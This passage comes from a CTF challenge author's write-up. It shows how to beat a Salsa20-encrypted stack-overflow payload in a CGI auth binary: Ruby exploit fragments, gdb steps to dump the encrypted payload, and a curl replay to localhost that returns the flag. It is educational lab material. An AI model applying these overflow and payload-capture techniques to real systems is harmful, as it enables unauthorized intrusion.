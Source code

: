 ```ruby
check_flag(flag, terminate: true)
```

# Part 3: `cant-get-in-securer`

The only changes on `cant-get-in-securer` are:

1. The payload is now encrypted with [Salsa20](https://github.com/alexwebr/salsa20) - that's my friend Alex's totally-unmaintained codebase
2. I stripped symbols so it'd be harder to tell

The goal is to make players either reverse engineer the encryption, or, better, to use a debugger to capture the encrypted payload! The key/nonce are static, so if you catch one pair, you get everything you need.

I changed the exploit to write the payload to a file and print the length:

```ruby
EXPLOIT = ("A" * PADDING) + stack
File.write("/tmp/unencrypted.bin", EXPLOIT)
puts EXPLOIT.length
exit
```

It prints 680, which lets us use our debugger again:

```
$ CONTENT_LENGTH=680 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(No debugging symbols found in ./auth.cgi)
```

I put a breakpoint at the `strcmp()` function, which is after the encrypt happens:

```
(gdb) b *0x401F04 
Breakpoint 1 at 0x401f04
```

Run with the unencrypted payload (identical to part 2, except offsets are changed):

```
(gdb) run < /tmp/unencrypted.bin
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in-securer/challenge/src/auth.cgi < /tmp/unencrypted.bin
Content-Type: text/plain
```

Write the encrypted payload to memory:
```
(gdb) dump memory /tmp/encrypted.bin $rdi $rdi+680
```

Then we can start the server and play it back:

```
$ curl -i --data-binary @/tmp/encrypted.bin 'http://localhost:8888/cgi-bin/auth.cgi' --output -
HTTP/1.1 200 OK
Date: Fri, 12 Apr 2024 22:02:05 GMT
Server: Apache/2.4.58 (Unix)
Transfer-Encoding: chunked
Content-Type: text/plain

CTF{cranky-gamified-indoctrination}
```
